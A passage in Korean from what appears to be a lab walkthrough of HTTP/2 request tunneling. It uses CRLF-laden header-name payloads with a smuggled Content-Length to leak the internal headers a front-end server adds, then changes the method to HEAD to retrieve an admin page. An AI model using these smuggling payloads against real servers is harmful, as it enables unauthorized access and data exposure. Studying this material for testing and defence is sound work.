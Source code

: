 Header name
```
foo:a\r\n
Content-Length: 200\r\n
\r\n
search=x
```
Header value
```
x
```

응답이 Time out 되는 경우, Content-Length가 커서(패킷 내용이 짧아서) 응답이 대기 중인 것이므로 아래와 같이 ‘Header value'에 값을 추가하여 전송합니다.

Header name

```
foo:a\r\n
Content-Length: 200\r\n
\r\n
search=x
```

Header value

```
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
```

그러면 아래 그림과 같이 Front-end에서 다운그레이드하여 Back-end로 패킷 전송 시 추가되는 헤더들이 검색 결과 화면에 노출됩니다.
![tunneling result](12.png)


**Step 3)** 터널링을 통해 admin 페이지를 통째로 패킷에 포함시켜 가져와야 하므로 HEAD 메소드를 이용하는 것이 효율적입니다. (Non-blind tunneling)

이전 공격 패킷에서 `:method` 헤더의 값을 'HEAD'로, `:path` 헤더 값을 '/login' 으로 바꿉니다.
`:path`를 '/login' 으로 바꾸는 이유는 메인 페이지(/)의 경우 응답 페이지의 크기 (Content-Length)가 커서 '/admin' 페이지의 내용을 담고도 크기가 남아서 오류가 발생하기 때문입니다.

